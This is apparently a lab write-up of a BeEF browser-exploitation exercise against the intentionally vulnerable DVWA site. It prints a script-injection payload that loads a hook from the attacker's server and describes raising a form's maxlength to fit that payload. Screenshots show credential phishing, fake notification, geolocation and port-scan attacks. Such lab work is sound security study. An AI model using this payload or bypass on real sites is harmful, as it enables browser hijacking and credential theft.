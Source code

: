 ## "Hooking the DVWA Website via BeEF"

### 1. Successfully "hooked" URL 192.168.13.25 on port 80 / Firefox

![pic](hook-1.PNG)  

**NOTE: the payload required to "hook" the DVWA website requires injecting a script. However the script (script src="http://127.0.0.1:3000/hook.js"></script) has to many words to be fully pasted into the message. In-order to fix this limitation, you must change setting in the Inspect Element. Specifically the textarea name / maxlength from 50 to 75.**

### [Picture of script too short](hook-2.PNG) 

### [Picture of script length correct](hook-500.PNG)

### 2. Launching the Pretty Theft Attack

![pic](hook-3.PNG) 


* Victim entered the following: 

    A) Email: Rob1@fake.com

    B) Password: 12345678

    ![pic](hook-4.PNG) 

* You can also see what the victim entered for EMAIL and PASSWORD in the LOGS TAB:

    ![pic](hook-5.PNG) 

* Picture of the attack from Linux Command Line

    ![pic](hook-6.PNG) 

### NOTE: From the pictures above you can see that the attack was SUCCESSFULL

**A) Example of a SUCCESSFULL Fake Notification Attack**

![pic](hook-7.PNG) 

 **B) Example of a SUCCESSFULL Get Geolocation (Third Party) Attack**

![pic](hook-8.PNG)

 **C) Example of a SUCCESSFULL Port Scanner Attack**

![pic](hook-9.PNG)

